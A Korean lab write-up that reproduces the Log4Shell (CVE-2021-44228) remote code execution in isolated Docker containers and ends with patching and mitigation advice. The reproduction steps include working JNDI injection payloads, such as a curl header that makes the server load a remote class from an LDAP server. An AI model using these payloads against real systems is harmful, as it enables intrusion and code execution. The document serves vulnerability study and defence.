






# CVE-2021-44228 (Log4Shell) — Apache Log4j2 원격 코드 실행

> 신유진 [mallangmollangquokka (@mallangmollangquokka)](https://github.com/mallangmollangquokka)

<br>

## 취약점 요약

| 항목 | 내용 |
|---|---|
| **CVE ID** | CVE-2021-44228 |
| **영향 소프트웨어** | Apache Log4j2 2.0-beta9 ~ 2.14.1 |
| **취약점 유형** | Remote Code Execution (RCE) |
| **CVSS Score** | **10.0** (Critical) |
| **인증 필요 여부** | 불필요 (No Authentication) |
| **공격 벡터** | Network (원격) |
| **발견 시점** | 2021년 11월 |

Apache Log4j2는 자바 애플리케이션에서 가장 널리 쓰이는 로깅 라이브러리다. 이 라이브러리는 로그 메시지 안에 `${jndi:...}` 형태의 Lookup 표현식이 포함되어 있으면 이를 **실행 가능한 명령으로 해석**하는 기능을 갖고 있다.

문제는 이 기능이 **사용자 입력값에도 아무런 검증 없이 그대로 적용**된다는 점이다. 공격자가 HTTP 헤더, 로그인 폼, 파라미터 등 서버가 로그로 기록하는 어떤 필드에든 `${jndi:ldap://공격자서버/페이로드}` 문자열을 넣으면, 피해 서버가 공격자의 LDAP 서버로 스스로 접속하고, 그 응답으로 받은 **임의의 Java 클래스를 다운로드하여 실행**한다.

인증이 필요 없고, 공격 지점이 "로그로 남는 곳 어디든"이기 때문에 CVSS 만점(10.0)을 받았으며, 2021년 말 전 세계 서버 운영자가 긴급 패치에 나선 역대급 취약점 중 하나다.

<br>

## 취약점 발생 원리

### 왜 JNDI Lookup이 log4j에 존재했나

log4j는 로그 메시지에 동적인 값을 자동으로 삽입하는 **Lookup** 기능을 제공한다.

```
${date:yyyy-MM-dd}   → 현재 날짜
${sys:user.home}     → 시스템 프로퍼티
${env:PATH}          → 환경변수
${jndi:ldap://...}   → JNDI로 원격 리소스 조회  ← 문제의 기능
```

`jndi:` Lookup은 원래 내부 설정 서버에서 값을 동적으로 읽어오기 위한 엔터프라이즈 기능이었다. 하지만 log4j는 이 Lookup을 평가할 때 **"개발자가 작성한 신뢰된 문자열인지, 사용자가 외부에서 입력한 값인지"를 전혀 구분하지 않았다.**

### 공격 흐름

```
① 공격자가 HTTP 헤더에 JNDI Lookup 페이로드 삽입
   X-Api-Version: ${jndi:ldap://공격자서버:1389/Exploit}
                          │
                          ▼
② 피해 서버가 해당 헤더값을 로그로 기록 시도
   logger.info("X-Api-Version: {}", 헤더값)
                          │
                          ▼
③ log4j가 ${jndi:...} 패턴 감지 → 해당 주소로 실제 LDAP 조회 요청
                          │
                          ▼
④ 공격자의 LDAP 서버가 Reference 응답 반환
   "http://공격자서버:8000/Exploit.class 를 받아서 실행해"
                          │
                          ▼
⑤ 피해 서버가 Exploit.class 다운로드 후 JVM에 로드
                          │
                          ▼
⑥ 클래스 로드 시점에 static 블록 자동 실행 → 임의 명령 실행 (RCE)
```

<br>

## 환경 구성

# 준비물 안내도 PowerShell 기준으로
> Windows PowerShell 환경 기준으로 작성됨
> Linux/macOS 사용자는 `curl.exe` → `curl`, `dir` → `ls -la` 로 변경

### 디렉토리 구조

```
CVE-2021-44228/
├── docker-compose.yml        # 전체 환경 정의
├── app/                      # 취약한 피해자 서버
│   ├── Dockerfile            # openjdk:8u181 + log4j-core 2.14.1
│   ├── App.java              # 사용자 입력을 검증 없이 로깅하는 웹 서버
│   └── log4j2.xml            # log4j 설정
├── ldap/                     # 공격자의 악성 LDAP 서버
│   └── Dockerfile            # marshalsec 빌드
├── poc/
│   ├── Exploit.java          # JNDI로 로드될 악성 페이로드 소스
│   ├── Exploit.class         # 컴파일된 페이로드
│   └── trigger.sh            # 공격 트리거 스크립트
└── README.md
```

### 컨테이너 구성

| 컨테이너 | 역할 | 포트 |
|---|---|---|
| `log4shell-app` | 취약한 데모 웹 서버 (log4j-core 2.14.1) | 8080 (호스트 노출) |
| `log4shell-ldap` | 악성 LDAP 서버 (marshalsec) | 1389 (내부) |
| `log4shell-http` | Exploit.class 파일 서버 (python http.server) | 8000 (내부) |

세 컨테이너는 모두 `log4shell-net` 브릿지 네트워크 안에서만 통신하며, 외부 서버에 의존하지 않는다.

### 취약 조건

- log4j-core **2.14.1** 사용 (패치 전 버전)
- 사용자 입력값(`X-Api-Version` 헤더)이 검증 없이 `logger.info()`로 기록됨
- JDK **8u181** 사용 — `trustURLCodebase=true`가 기본값이라 원격 클래스 로딩이 허용됨
  - JDK 8u191 이후 버전은 `trustURLCodebase`가 기본 `false`로 변경되어 이 방식의 공격이 차단됨

<br>

## 재현 절차

> **준비물**: Docker Desktop (WSL2 백엔드 권장), 인터넷 연결
>
> ⚠️ Windows PowerShell 사용자는 `curl` 대신 `curl.exe`를 사용할 것

---

### 1단계 — 레포 클론

```bash
git clone https://github.com/mallangmollangquokka/kr-vulhub.git
cd kr-vulhub/Apache-Log4j2/CVE-2021-44228
```

---

### 2단계 — 페이로드 컴파일

로컬에 JDK가 없어도 도커 이미지를 컴파일러로 빌려 쓸 수 있다.

```bash
docker run --rm -v "$(pwd)/poc:/poc" -w /poc openjdk:8u181-jdk javac -source 8 -target 8 Exploit.java
```

컴파일이 성공하면 `poc/Exploit.class` 파일이 생성된다.

```bash
ls -la poc/Exploit.class
혹은(안된다면)
dir poc
```

> 예상 출력:
> ```
> -rw-r--r-- 1 root root 637 ... Exploit.class
> ```



---

### 3단계 — 환경 기동

세 컨테이너(app, ldap-server, http-server)를 한 번에 띄운다.
최초 빌드 시 marshalsec 컴파일 때문에 **5~10분** 소요될 수 있다.

```bash
docker compose up -d --build
```

```bash
docker compose ps
```

> 예상 출력 — 세 컨테이너 모두 `Up` 상태여야 한다:
> ```
> NAME             IMAGE                      STATUS
> log4shell-app    cve-2021-44228-app         Up
> log4shell-http   python:3.11-slim           Up
> log4shell-ldap   cve-2021-44228-ldap-server Up
> ```



---

### 4단계 — 공격 전 정상 동작 확인

```bash
curl http://localhost:8080/
```

> 예상 출력:
> ```
> OK
> ```

```bash
docker compose logs ldap-server
```

> 예상 출력:
> ```
> Listening on 0.0.0.0:1389
> ```



---

### 5단계 — 공격 트리거 🔴

HTTP 헤더 `X-Api-Version`에 JNDI Lookup 페이로드를 삽입한다.
피해 서버는 이 헤더값을 로깅하는 순간 공격자의 LDAP 서버로 자동 접속한다.

```bash
# Linux / macOS
curl -s "http://localhost:8080/" \
  -H 'X-Api-Version: ${jndi:ldap://ldap-server:1389/Exploit}'
```

```powershell
# Windows PowerShell
curl.exe -s "http://localhost:8080/" -H 'X-Api-Version: ${jndi:ldap://ldap-server:1389/Exploit}'
```

> 예상 출력:
> ```
> OK
> ```
> 피해 서버는 아무것도 모른 채 정상 응답한다. 이것이 이 취약점의 핵심이다.


---

### 6단계 — RCE 결과 확인

```bash
docker compose exec app cat /tmp/pwned
```

> 예상 출력:
> ```
> LOG4SHELL_STATIC_BLOCK_EXECUTED
> COMMAND_EXECUTED
> ```

두 줄이 출력되면 **RCE 성공**이다.
- `LOG4SHELL_STATIC_BLOCK_EXECUTED` → 원격 클래스 로딩 성공, Exploit의 static 블록이 실행됨
- `COMMAND_EXECUTED` → OS 명령어 실행까지 완료됨



---

### 7단계 — 공격 흔적 로그 확인

```bash
docker compose logs ldap-server
```

> 예상 출력:
> ```
> Listening on 0.0.0.0:1389
> Send LDAP reference result for Exploit redirecting to http://http-server:8000/Exploit.class
> ```
> LDAP 서버가 app의 조회 요청을 받아 Exploit.class 위치를 알려준 흔적이 찍힌다.



```bash
docker compose logs app --tail 30
```

> 예상 출력 (일부):
> ```
> [app] Vulnerable Log4j2 demo app listening on :8080
> 
> at org.apache.logging.log4j.core.Logger.log(Logger.java:161)
> at App$Handler.handle(App.java:36)          ← 취약 지점: 헤더값을 logger.info()로 넘긴 줄
> ...
> Caused by: java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory
> at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
> at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1085)  ← LDAP 조회 실행된 흔적
> ...
> INFO App - Request received. X-Api-Version: ${jndi:ldap://ldap-server:1389/Exploit}
> ```

이 로그가 공격 전체 체인이 성공했음을 보여주는 핵심 증거다. 로그를 아래에서 위로 역추적하면:

1. `App$Handler.handle(App.java:36)` — 취약한 지점. `X-Api-Version` 헤더값을 `logger.info()`에 그대로 넘긴 줄이다.
2. `com.sun.jndi.ldap.LdapCtx.c_lookup` — log4j가 `${jndi:...}` 패턴을 감지하고 실제로 LDAP 조회를 실행한 흔적이다.
3. `ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory` — 얼핏 에러처럼 보이지만 **이 시점에 공격은 이미 완료된 상태**다. 실행 순서는 이렇다:
   - Exploit.class가 원격에서 다운로드됨
   - JVM에 로드되는 순간 `static { }` 블록 자동 실행 → `/tmp/pwned` 생성, OS 명령어 실행 **(RCE 완료)**
   - 그 이후 JNDI가 이 클래스를 `ObjectFactory`로 캐스팅 시도
   - `Exploit`은 `ObjectFactory`를 구현하지 않으므로 `ClassCastException` 발생
   
   즉 에러는 **공격이 끝난 뒤에 발생한 부작용**이며, `/tmp/pwned` 파일이 이미 생성된 것이 그 증거다.


---

### 8단계 — 환경 정리

```bash
docker compose down
```

<br>

## 📊 실행 결과


공격 시나리오 요약:
1. 공격자가 `curl`로 HTTP 헤더에 `${jndi:ldap://...}` 페이로드 삽입
2. 피해 서버가 요청을 받아 헤더값을 로깅 → log4j가 JNDI Lookup 자동 실행
3. LDAP 서버(marshalsec)가 Exploit.class 위치를 Reference로 응답
4. 피해 서버가 Exploit.class를 HTTP로 다운로드 → JVM에 로드
5. static 블록 실행 → `/tmp/pwned` 파일 생성, OS 명령어 실행 성공 (RCE 달성)

<br>

##  대응 방안

### 즉시 조치 (패치)

가장 확실한 방법은 **log4j-core를 2.17.1 이상으로 업그레이드**하는 것이다.
이 버전부터 JNDI Lookup 기능이 기본 비활성화된다.

### 긴급 완화책 (패치가 당장 불가한 경우)

```bash
# 방법 1: JVM 옵션 추가 (2.10 이상에서 유효)
-Dlog4j2.formatMsgNoLookups=true

# 방법 2: 환경변수 설정
LOG4J_FORMAT_MSG_NO_LOOKUPS=true

# 방법 3: JndiLookup 클래스 직접 제거 (버전 무관)
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

### 네트워크 레벨 방어

내부 서버에서 외부로 나가는 **LDAP(389/636)·RMI(1099) 아웃바운드 트래픽을 차단**한다.
클래스 로딩 자체는 막지 못하더라도, 공격자 서버로 JNDI 조회가 나가는 것을 차단해
공격 체인을 끊을 수 있다.

### 근본 원인과 교훈

- JDK 8u191+, 11.0.1+ 이후 버전은 `trustURLCodebase` 기본값을 `false`로 변경해
  원격 클래스 로딩을 막았지만, 이는 완화책일 뿐이며 **로컬 가젯 체인을 이용한 우회가
  여전히 가능**하다. log4j 자체 패치가 필수다.
- 가장 근본적인 교훈은 **사용자 입력을 검증 없이 로깅 파이프라인에 넘기지 않는 것**이다.

<br>

## 🔗 참고 자료

- [NVD - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [Apache Log4j 보안 공지](https://logging.apache.org/log4j/2.x/security.html)
- [marshalsec (mbechler)](https://github.com/mbechler/marshalsec)
- [LunaSec Log4Shell 분석](https://www.lunasec.io/docs/blog/log4j-zero-day/)
